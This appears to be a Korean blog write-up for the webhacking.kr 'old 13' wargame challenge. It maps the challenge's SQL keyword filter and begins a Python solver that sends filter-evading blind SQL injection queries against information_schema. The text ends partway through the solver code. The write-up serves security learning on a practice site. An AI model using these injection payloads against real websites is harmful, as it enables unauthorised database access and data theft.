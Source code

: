 ```yaml
---
title: "webhacking.kr old 13 문제 풀이"
date: 2025-04-05 00:00:00 +0800
categories: [Wargame, Webhacking.kr]
tags: [cyber security, writeup, webhackingkr, web hacking, blind sql injection] 
description: webhacking.kr old 13 문제 풀이
---
```


[https://webhacking.kr/challenge/web-10/](https://webhacking.kr/challenge/web-10/)
# 문제 풀이
## 웹사이트 분석
사이트에 접속하면 쿼리와 플래그의 입력을 받는 인풋 박스가 2개 있다.<br />
플래그는 우선 알 수 없으니 쿼리에만 집중해야한다.<br />
### 쿼리
쿼리에 '1'을 입력해보면 결과를 보여주는 간단한 테이블이 나오고 결과가 1이라고 한다.<br />
'2'를 입력하면 결과가 0이라고 나옴과 동시에 테이블의 크기가 작아진다. 이게 문제를 푸는데에 도움을 주는 힌트인지는 모르겠지만 2를 입력했는데 0이라고 나온 것을 보면 아마도 2는 false라는 의미인 듯 하다.<br />
#### 필터링 문자 알아내기
최대한 다양한 값들을 입력해보았더니 특정 값을 넣었을 때 "no hack"이라는 문구와 함께 필터링에 걸리게 된다.<br />
전부는 아니지만 대충 필터되는 문자열들의 목록을 정리하면 아래와 같다.<br />
- +, -, \*, /, = 사칙연산 기호들
- \#
- @
- &
- 0x
- <, >
- space character
- like
- where
- union
- limit
- ascii
## 최종 풀이
### 취약점
해당 문제의 취약점 카테고리는 당연하게도 Blind SQL Injection이다.<br />

우리가 지금 가진 정보라고는 쿼리를 전달할 수 있고 필터링이 걸려있고 쿼리의 결과로는 참, 거짓만 알 수 있다는 것이다.<br />
Blind SQLI를 시도하려면 더 많은 정보가 필요한데 우리는 그걸 처음부터 얻어내야 한다.
### 테이블 길이와 이름 알아내기
```python
class Solver:
    def __init__(self):
        self.url = "https://webhacking.kr/challenge/web-10/?no="
        self.true_factor = "cellpadding"
        self.table_length = 14
        self.table_name = ""

    def getTableNameLength(self):
        for i in range(1, 100):
            query = f"if((select(length(min(table_name)))from(information_schema.tables))in({i}),1,0)"
            resp = requests.get(self.url + query)
            if self.true_factor in resp.text:
                self.table_length = i
                break
            
```